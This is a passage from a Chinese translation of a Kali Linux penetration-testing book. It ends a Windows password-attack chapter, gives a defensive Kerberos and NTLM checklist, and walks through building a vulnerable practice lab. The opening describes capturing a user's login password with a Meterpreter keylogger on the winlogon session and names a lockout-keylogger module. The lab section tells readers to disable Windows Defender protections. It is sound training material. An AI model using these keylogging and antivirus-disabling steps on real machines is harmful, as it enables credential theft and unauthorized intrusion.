

我们得到了密码，即 `"password"`！我知道，我知道，又是一个安全意识极强的用户。别笑，现实生活中这种情况仍然存在。我见过一家大公司禁用了域中的密码复杂度设置，以便保留他们使用了大约 10 年的简单密码。专业提示，定期更改域密码，如果你解雇了域管理员，一定要更改密码。许多离职人员会回来尝试远程使用他们的旧凭证；我曾多次看到这种情况发生...

在上一张图片中，注意锁定桌面的 `"Windows" + "L"` 按键记录并未显示。这是因为我们现在正在监控 `winlogon` 会话的键盘缓冲区，因此它不会显示。因此，本质上，因为我们的目标需要另一杯咖啡来度过他们忙碌的网络浏览日，他们锁定了桌面然后重新登录。当他们这样做时，我们能够捕获他们的完整密码。

请继续执行 `keyscan_stop` 以停止 keyscan。

有一个自动化的 Post 模块执行此攻击，并自动处理所有的切换 - `post/windows/capture/lockout_keylogger`。在本文撰写之时，它似乎不起作用，但值得一试！接下来，我想看看使用一个内置于每个 Windows 版本（自 7 以来）的微软工具，作为远程屏幕截图和用户活动记录工具。虽然它不是一个键盘扫描器，但它可以用于渗透测试以获取一些有趣的信息，这些信息在事后报告中也可能非常有说服力。

如本章开头所述，这些是获取密码的更多“奇特”方法，在实际破解密码中并不是必需的。我只是觉得你可能会对这些感兴趣。接下来，让我们看看一些防御密码攻击的方法！

# 第 10 章

## 防御 Windows 密码攻击

防御基于 Windows 的密码攻击涉及实施强大的安全措施，例如为服务账户使用复杂且唯一的密码、定期轮换凭证，以及监控网络中的可疑活动。此外，防御者还可以使用诸如 `BloodHound` 之类的工具来识别并缓解 Active Directory 中的潜在攻击路径。组织应专注于实施健全的安全措施，例如定期密码轮换、强密码策略以及监控可疑活动，以防御这些攻击。防御措施应始终是优先事项，以保护系统免受此类攻击。

在 Microsoft 网络中，最好减少或移除对旧版 NTLM 安全协议的依赖，仅使用 Kerberos。我知道说起来容易做起来难，所以我没有将其列入下面的清单中。不过，Microsoft 计划在不久的将来逐步淘汰 NTLM。读者必须认真检查其网络，确保在禁用之前该协议并非必要。即便如此，防御 Kerberos 攻击也需要结合最佳实践、配置设置和监控策略。

以下是针对 Windows 密码攻击的一些关键防御措施：

### 定期轮换服务账户密码

频繁更改服务账户密码可以减少攻击者尝试进行 Kerberoasting 攻击时的暴露窗口。

### 实施强密码策略

对所有账户（包括服务账户）实施强密码策略。这包括对长度、复杂性以及定期密码更改的要求。

### 使用受管服务账户 (MSAS) 或组受管服务账户 (GMSAS)

`MSA` 和 `gMSA` 会自动管理其密码，从而降低与人工管理的服务账户密码相关的风险。

### 限制服务账户权限

将服务账户（以及所有用户账户）限制在功能所需的最低权限级别。避免分配不必要的权限，以减少服务账户被攻陷后的影响。

### 监控异常活动

实施持续监控和告警，以检测与 Kerberos 身份验证相关的可疑活动。票据请求或使用模式中的异常可能表明正在发生攻击。

### 实施 Kerberos 保护 (Kerberos Armoring)

Kerberos 保护功能在 Windows Server 2012 R2 中引入，通过用用户密码哈希加密 TGT（TGT）来帮助防御 Pass-the-Ticket 攻击。请确保系统运行的是支持此功能的 Windows Server 版本。

### 启用 Kerberos 票据生命周期策略

配置 Kerberos 票据生命周期策略以限制票据的持续时间，从而在凭证泄露时减少暴露时间。然而，需权衡用户体验，避免频繁重新身份验证。

### 监控并保护 KRBTGT 账户

`KRBTGT` 账户是高价值目标。定期监控和审计与该账户相关的活动。通过限制仅允许需要访问权限的管理员访问，并使用强且唯一的密码来保护该账户。

### 实施凭据保护 (Credential Guard)

凭据保护功能在 Windows 10 和 Windows Server 2016 及更高版本中可用，通过隔离并在安全环境中保护 Kerberos 票据，帮助保护 NTLM 哈希并防御 Pass-the-Ticket 攻击。

### 使用扩展身份验证保护

启用扩展身份验证保护 (`EPA`) 以增强 Windows 安全性，通过添加额外的保护层来防御中间人攻击。

### 定期更新和修补系统

保持操作系统和软件使用最新的安全补丁，以解决已知漏洞。

### 教育用户和管理员

提高用户和管理员对与 NTLM 和 Kerberos 攻击相关的风险的认识。鼓励强密码实践并保持警惕。

### 考虑网络分段

实施网络分段，以在系统被攻陷时限制横向移动。

虽然本章完全基于 Windows 安全，但许多相同或类似的做法也有助于保护基于 Linux 的网络。通过实施这些防御措施，组织可以显著增强其对密码攻击的抵抗力，并改善整体安全态势。采用整体方法，结合技术手段、用户教育和主动监控，至关重要。

#### 结论

希望读者能像作者写书时一样享受阅读本书的过程。在安全领域只涵盖一个主题是很困难的，但希望这些信息对您和您的职业生涯有用。如果您喜欢这本书，并希望深入探索攻击性安全，请在亚马逊上查阅我的“Security Testing with Kali Linux”系列。如果您有任何问题或反馈，我非常乐意听取。请联系 `cyberarms@live.com`

祝您生活和事业顺利。

致以最诚挚的问候，

*Daniel Dieterle*

#### 资源与参考文献


- Palko, M. “The evolution of Windows authentication.” *Microsoft*, 2023年10月11日 - https://techcommunity.microsoft.com/t5/windows-it-pro-blog/the-evolution-of-windows-authentication/ba-p/3926848

- “What’s New in Kerberos Authentication.” *Microsoft*, 2016年8月31日 - https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831747(v=ws.11).

- “Credential Guard Overview.” *Microsoft*, 2023年9月5日 – https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/

- “Extended Protection for Authentication Overview.” *Microsoft*, 2021年9月15日 - https://learn.microsoft.com/en-us/dotnet/framework/wcf/feature-details/extended-protection-for-authentication-overview

- “Group Managed Service Accounts Overview” *Microsoft*, 2023年8月4日 - https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview

## 附加章节

### 实验环境搭建与虚拟机安装

*本章摘自我的著作《Basic Security Testing with Kali Linux, 4th Edition》。在此重复发布，旨在帮助那些不熟悉虚拟机设置的人，同时也让读者体验一下基础版 Kali 书籍的内容。如果您喜欢本书，请查看我的“Security Testing with Kali Linux”系列其余部分——除了本附加章节和基础版书籍外，该系列还包括“Advanced Security Testing with Kali Linux”和“Security Testing with Raspberry Pi, 2nd Edition”*

在本章中，我们将介绍本书的实验环境搭建。我基本上使用了与之前所有书籍中相同的实验环境类型——在单个主机系统上构建完整的虚拟实验环境，并在需要时配备几台可选系统。正如介绍中所述，我希望保持这种设置的简单性和低成本。使用虚拟机（VM）设置我们的测试实验室使得使用 Kali 学习进攻性计算机安全测试变得非常容易。

虚拟机使得在单台计算机上运行多个操作系统成为可能。这样，我们就不需要满屋子的计算机来设置测试和学习环境了。我们只需要一台性能足够强大的机器，能够同时运行多个虚拟机会话。此外，这样也避免了每月“云访问”费用，这些费用可能会阻碍一些学生访问或使用它们。如果您是讲师，可以根据您认为适合学生的任何方式修改布局。

书中的所有实验都是在配备 16 GB 内存的 Windows 11 Professional Core i7-6700 系统上创建的，该系统作为虚拟机主机。它拥有足够的性能，可以毫无问题地运行所有实验操作系统。在有选择的情况下，只要可能，我使用了所有软件的 64 位版本，尤其是 Kali Linux（Kali Linux 2023 64 位）。如果您有虚拟系统经验，可以使用任何您喜欢的虚拟机软件。但对于本书，我将使用 VMware Player 作为宿主软件。完成后，我们应该拥有一个小型测试网络，外观类似于下图。



> **警告** - *由于我们将处理存在漏洞的操作系统，请确保在主机系统和实际互联网之间有一个防火墙路由器（最好是硬件）。切勿将运行易受攻击软件的直接连接到业务网络或拥有实际互联网访问权限的网络。确保实验室与外部攻击隔离是读者的责任。*

这是一个有意设计得非常简单的实验布局。再次强调，我希望对于无法负担在线云服务的學生来说，尽可能降低成本。您可以基于这个基本设计，根据自己的环境需求将其变得尽可能复杂。如果您想深入了解如何设置多种类型的虚拟实验室，我强烈推荐这本书，“*Building Virtual Machine Labs - A Hands-On*”

《指南》由托尼·罗宾逊（Tony Robinson）编写。最后，我在本书中仍然使用 Metasploitable 2。我知道它有些过时了，但它仍然是一个非常棒的学习工具，非常适合观察一些基本技术。我总是说，最好的学习方式就是直接上手，所以，让我们开始吧！

#### 安装 VMware PLAYER 与 KALI LINUX

首先，我们将安装 VMware Player 和 Kali Linux。在 VMware 上安装 Kali 非常简单，因为 Kali.org 提供了可供下载的 VMware 镜像，所以我们不会在这一部分花太多时间。请访问 VMware Player 网站查看最新的安装说明。

1. 下载并安装适用于您的操作系统的 VMware Player 版本

    https://www.vmware.com/products/workstation-player/workstation-player-evaluation.html

VMware Player 的版本甚至下载位置似乎都在频繁变化。在撰写本文时，VMware Player 的当前版本是“VMWare Workstation 17 Player”，它可以作为免费版运行（用于非商业用途），也可以通过许可运行。



2. 选择您想要安装的位置，通常默认值就可以了。

3. 跟随安装提示操作，如果要求则重新启动电脑。

4. 启动 VMware 并输入您的电子邮件地址以获取免费版，或者购买并输入许可密钥用于商业使用。

5. 完成后，点击“*继续*”，然后点击“*完成*”。

6. 从 Kali.org 下载 64 位 Kali Linux VMware 镜像：



验证下载文件的校验和以确认文件正确且未被修改或损坏总是个好习惯。某些种子（Torrent）会自动执行此操作。您可以在 Windows 中使用 `certUtil` 命令手动执行此操作。

7. 在命令提示符中，输入“`certUtil -hashfile [kali linux 下载文件] SHA256`”

然后只需将校验和与下载的文件进行核对。

8. 接下来，将文件解压缩到您希望其运行的位置。我使用了一个名为“Basic Kali VMs”的文件夹。

9. 启动 VMware Player。

10. 从菜单中点击“Player”。

11. 然后点击“File”（文件）。

12. 接着点击“Open”（打开）。

13. 导航到解压后的 Kali Linux `.vmx` 文件，选中它，然后点击“Open”（打开）。

14. 它现在会显示在 VMWare Player 的主屏幕上。

15. 选中 Kali 虚拟机，点击“Edit Virtual Machine Settings”（编辑虚拟机设置）。

在这里您可以查看和更改虚拟机的任何设置：



16. 点击“Network Adapter”（网络适配器）：

默认设置为 NAT（网络地址转换）。NAT 意味着每个虚拟机将在一个由它们和主机共享的小型 NAT 网络中创建；如果需要，它们也可以访问互联网。有些人报告在使用 NAT 时遇到问题，只能使用桥接（Bridged），因此我在本书的所有虚拟机中都使用了桥接模式。如果您使用桥接模式，**请确保在您的系统和互联网之间拥有硬件防火墙。**

17. 点击“OK”（确定）返回到 VMWare Player 主屏幕。

18. 现在只需点击“Play Virtual Machine”（运行虚拟机），以启动 Kali。您可能会收到一条消息询问虚拟机是否被移动或复制，只需点击“I copied it”（我已复制它）。

19. 当提示安装 VMWare 工具时，选择稍后安装。

20. 当 Kali 启动时，您将进入登录界面。

21. 使用用户名“`kali`”和密码“`kali`”登录。

22. 之后您将看到主桌面：




现在我们已安装好 Kali 虚拟机！

### KALI LINUX - 设置 IP 地址

*我在本书中为所有 IP 地址使用 DHCP。* 在现实生活中，我有许多运行 Kali 的系统和 IoT 设备，而且您很可能也是如此。对于新学生来说，在实验室环境中直接使用 DHCP 也更容易。如果您的环境中可以使用 DHCP，请跳过本节，前往“**Kali Linux -- 更新**”。

但如果您因某种原因需要为 Kali 设置 IP 地址，您可以通过桌面菜单进行操作：

1. 在右上角扬声器图标旁边的以太网图标上右键单击。


2. 点击“**编辑连接**”以展开。
3. 然后点击“Wired Connection 1”（有线连接 1）。
4. 点击齿轮图标。
5. 在“**Wired - Connected**”（有线 - 已连接）下方，点击设置图标。
6. 然后您可以更改任何您想要的网络设置。



重新启动系统。当它再次启动后，打开一个终端窗口（点击快速启动菜单上的终端按钮）并运行“`ip a`”或“`ifconfig`”，以确保 IP 地址已成功更改。就这样了。Kali 现在应该已经安装好并准备就绪。

### KALI LINUX - 更新

Kali Linux 不断进行更新，以包含最新的工具和特性。如果您有一段时间没有使用 Kali，现在您默认将是一个普通用户，并且需要切换到超级用户终端或使用 `sudo` 来运行需要 root 权限的命令。

要更新 Kali Linux，请打开一个终端（顶部菜单上的终端按钮）并键入：

- `sudo apt update`
- `sudo apt upgrade`

```
kali@kali:~$
$ sudo apt update
Hit:1 http://kali.download/kali kali-rolling InRelease
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
629 packages can be upgraded. Run 'apt list --upgradable' to see them

kali@kali:~$
$ sudo apt upgrade
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
Calculating upgrade... Done
```

更新可能需要一段时间，并且可能会提示您输入信息 - 如果您不确定如何回答某个问题，请使用默认响应。

- 更新完成后，重新启动系统。

现在 Kali 已更新，让我们安装另一个虚拟机，Metasploitable2。

#### 安装 METASPLOITABLE 2

Metasploitable 2，这个我们用来练习利用漏洞的故意存在漏洞的 Linux 操作系统，可以作为 VMware 虚拟机使用。就像上面对 Kali 虚拟机所做的那样，我们只需要下载 Metasploitable 2 的虚拟机镜像，解压它并用 VMware Player 打开即可。

1. 下载 **Metasploitable 2**

    ([http://sourceforge.net/projects/metasploitable/files/Metasploitable2/](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/))

2. 解压该文件并将其放在您选择的文件夹中（我使用了我的 Basic VM 文件夹）。

然后只需启动另一个 VMware Player 副本，在 VMware 中打开 Metasploitable 2 即可。

- 然后点击“*Player*”、“*File*”、“*Open*”
- 导航到 ‘Metasploitable.vmx’ 文件，选中它并点击“*Open*”

它现在将显示在 VMware Player 菜单中。

3. 现在前往 Metasploitable 的“*Edit Virtual Machine Settings*”（编辑虚拟机设置），确保网络接口设置为“*Bridged*”（桥接模式）（或者如果您喜欢，也可以设置为 NAT，只需确保所有虚拟机设置相同即可）。



Metasploitable 2 现在已准备好使用。

> **警告：**
>
> *Metasploitable 是一个故意存在漏洞的操作系统。切勿将其直接暴露在互联网上。确保在您的宿主系统和互联网之间安装了防火墙。*

继续启动 Metasploitable 系统。如果被询问是否移动或复制了它，请点击“*I copied it*”（我已复制它）。您现在应该能看到 Metasploitable 桌面：



4. 使用屏幕上的凭证登录。

    登录名: **msfadmin**

    密码: **msfadmin**

要退出此虚拟机窗口并恢复鼠标控制，只需按 ^`Ctrl`^-^`Alt`^。

### METASPLOITABLE 2 - 设置 IP 地址

默认情况下，Metasploitable 2 的地址设置为“动态”（Dynamic）。这对我们的实验室来说完全没问题。如果您不需要更改 IP 地址，您可以跳过前往“**Windows 11 - 安装为虚拟机**。”

如果您想将其设置为静态 IP，请编辑“` /etc/network/interfaces`”文件。在此文件中，您可以设置 IP 地址、子网掩码和网关。

- 在 Metasploitable2 中导航到“` /etc/network`”
- 输入“`sudo nano interfaces`”
- 将“`iface eth0 inet dynamic`”行更改为“`iface eth0`”

  “`inet static`”

- 然后输入 IP 地址、子网掩码和您的路由器网关。
- 以下示例 IP 地址仅供参考，请使用适合您网络的 IP 地址。

```
# This file describes the network interfaces available on your system
# and how to activate them. For more information, see interfaces(5).
#
# The loopback network interface
auto lo
iface lo inet loopback

# the primary network interface
auto eth0
iface eth0 inet static
	address	192.168.1.68
					netmask	255.255.255.0
					gateway	192.168.1.1
```

- 完成后，按“`ctrl-x`”，“`y`”，然后按“`enter`”
- 输入“`cat interfaces`”以验证您的更改：

```
msfadmin@metasploitable:/etc/network$ cat interfaces

# 此文件描述了你系统上可用的网络接口

# 以及如何激活它们。更多信息，请参阅 interfaces(5)。

# 回环网络接口

auto lo

iface lo inet loopback

# 主要网络接口

auto eth0

iface eth0 inet static

    address 192.168.1.68

    netmask 255.255.255.0

    gateway 192.168.1.1
```

- 输入 `sudo reboot` 以重启 Metasploitable2

现在，我们的 Metasploitable2 和 Kali 系统已设置完毕并准备就绪。为了验证 Kali 和 Metasploitable2 是否能够互相识别，请在终端中使用 `ip a` 或 `ifconfig` 命令获取两个系统的 IP 地址，然后使用 `ping` 命令。从 Metasploitable 系统 ping Kali 系统，反之亦然。如果你在两个响应中都看到 "`64 bytes from ...`"，那么你就可以确信一切已正确设置，它们能够互相识别并正常通信。

#### 在虚拟机中安装 WINDOWS 11


在这本书中，我使用 Windows 11 系统作为多个章节的目标系统。你需要在 VMware Player 中安装一个授权的 Windows 副本。如果你没有授权版本的 Windows 11，你可以从 Microsoft 下载一个有过期限制的企业版试用版。

Windows 11 Enterprise 试用版 VMware 镜像位于：

`https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/`

只需下载 VMware 版本，然后将其添加到 VMware Player 中。我建议使用至少 6 GB 的内存用于虚拟机。如果使用内存过少，虚拟机运行会缓慢，但内存过多可能会影响宿主机的性能。此外，请将网络适配器设置为桥接模式（或者适合你环境的最佳模式）。

- 如果你的处理性能允许，将处理器设置为 `"2"` 也会有帮助


Microsoft Defender 团队在监控防病毒工具绕过更新方面非常活跃，并会在其发布后立即进行拦截。因此，在本书撰写时，那些目前有效的标准绕过方法，在本书出版和分发时很可能已经失效。因此，为了确保实验室功能正常，我建议在该虚拟机上关闭防病毒软件。

**再次提醒，请确保在你的环境中这样做是安全的！**

在 Windows 11 设置中，进入“病毒和威胁防护设置”，然后点击“管理”，接着关闭“实时保护”。


**同时也请关闭云和样本检测。**


如果你的宿主机上安装了非常激进的杀毒/安全软件，你可能也需要禁用该软件。在处理某些 C2（命令与控制）框架时，我必须在系统上执行此操作。宿主机的防病毒软件会在载荷执行前捕获并删除它们。

警告！ 确定在你的测试实验室环境中禁用安全性是否安全，是你个人的责任和唯一责任。不要在你的宿主机上关闭安全设置后连接互联网或用于生产环境。同时，请确保你的实验室和互联网之间有硬件防火墙。

最后，当系统提示时安装 VMware 工具。

### 可选虚拟机

如果你想直接进入实操环节 – 请直接跳到下一章。我只是想为那些希望测试更多目标的高级读者提供一些额外的选择。这些虚拟机需要更高级的知识和设置工作，所以我将这些作为读者的可选项。

### OWASP MUTILLIDAE 2

**工具 GitHub: [https://github.com/webpwnized/mutillidae](https://github.com/webpwnized/mutillidae)**

OWASP Mutillidae II 是一个故意存在漏洞的 Web 应用程序，非常适合安全实验室培训。它专注于学习和实践 OWASP 十大漏洞。Metasploitable2 附带的 Mutillidae 版本较旧，如果你想要更新版本，可以将其作为独立虚拟机安装。安装 Mutillidae 有几种方法，工具作者的 YouTube 频道对此都有介绍。你可以选择任意你喜欢的方式安装。对于这本书，我将其安装在 Ubuntu 虚拟机上，运行效果非常好。

每种安装方法都在工具作者的 YouTube 网站上有详细介绍：

`https://www.youtube.com/playlist?list=PLZ0ToVAK85Mqx+EyrjiNe-LwDMhxJJKzmm`

再次说明，你可以遵循工具作者的任何安装方法，选择最适合你环境的方式即可。我选择在 Ubuntu 上直接运行它 – 以下是简明的安装概述。

#### 在 UBUNTU 上安装 MUTILLIDAE

- 1. 创建一个 Ubuntu 虚拟机
- 2. 安装 XAMPP
- 3. 然后，将 `Mutillidae` 执行 `git clone` 命令到 `/opt/lampp/htdocs` 目录
- 4. 启动控制面板：`sudo /opt/lampp/manager-linux-x64.run`
- 5. 设置 Mutillidae 的密码：

```
> /opt/lampp/bin/mysql -u root
> use mysql;
> update user set authentication_string=PASSWORD('mutillidae') where user='root';
> update user set plugin='mysql_native_password' where user='root';
> flush privileges;
> quit;
```

- 6. 启动 Mutillidae

```
> cd /opt/lampp
> sudo ./xampp start
```

```
dan@ubuntu:~/Downloads$ cd /opt/lampp/
dan@ubuntu:/opt/lampp$ sudo ./xampp start
Starting XAMPP for Linux 8.0.0-2...
XAMPP: Starting Apache...ok.
XAMPP: Starting MySQL...ok.
XAMPP: Starting ProFTPD...ok.
```

- 7. 访问 `http://localhost/mutilidae` – 你可能需要点击“*setup/ reset database*”。


若要远程访问 Web 服务器，你可能需要在 `*/opt/lamp/htdocs/mutilidae/.htaccess*` 文件中允许访问你的网络地址 – 默认情况下仅允许 Localhost 和 VMware 主机地址。

**_故障排除_** – 如果你遇到“directory not empty, can't reset database”错误 – 你可能需要删除 `*/opt/lampp/var/mysql*` 中的 Mutillidae 文件夹，然后再次从 Mutillidae 网站点击“*rebuild/setup*” DB。

既然我们已经在 Ubuntu 上设置好了 Mutillidae，我们可以将另一个易受攻击的 Web 应用程序 – DVWA 添加到同一系统中。

### 极度易受攻击的 Web 应用程序 (DVWA)

**工具 GitHub:** [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)

Damn Vulnerable Web Application (DVWA) 是另一个练习和学习 Web 应用安全的好工具。如果你在 Ubuntu 虚拟机上安装了 Mutillidae，你可以在同一系统上安装 DVWA。

#### 安装 DVWA

- 1. 切换到你的 HTDOCS 目录
- 2. 输入，"`sudo` `git` `clone`"
  `"https://github.com/digininja/DVWA.git"`
- 3. 访问 "`http://127.0.0.1/DVWA/setup.php`"

修复你的环境中所有标红的区域 – 如果你将它安装在 Mutillidae 系统上，你需要在配置文件中将用户名和密码更改为 “root/ mutillidae”。

> **注意：** *我没有安装 reCAPTCHA 密钥，你也不需要它*

### 总结

就这样！我们的虚拟实验室现已准备就绪！在这一章中，我们介绍了如何在单个系统上设置多台虚拟机以创建测试实验室。我们将它们全部设置为使用相同的网络，以便它们能够互相通信。我们将在本书其余部分使用此配置。提醒一下，我在书中使用的 IP 地址将与你自己的不同。如果你设置了自己的虚拟主机并使用 DHCP，系统在重启时 IP 地址也可能会变化。如果你不确定你的 IP 地址是什么，可以在虚拟机中运行 `ifconfig`（Linux）或 `ipconfig`（Windows）来查找 IP 地址。

在实验室系统（和 CTF 网站）上练习安全技术是提高你技能集的绝佳方式之一。切勿尝试在生产系统上使用新技术或未经测试的工具。在使用工具对实际系统进行操作之前，你应该始终确切知道工具会做什么，以及如何撤销工具所做的更改。许多大型公司实际上都会拥有其生产系统的精确副本，用于在尝试任何可能更改或负面影响实际系统的操作之前进行测试。

### 资源与参考

- VMware - `https://www.vmware.com/`
- Kali 安装指南 - `https://www.kali.org/docs/installation/`


- Kali VMware 下载 - https://www.kali.org/get-kali/
- Microsoft VM 下载 - https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/
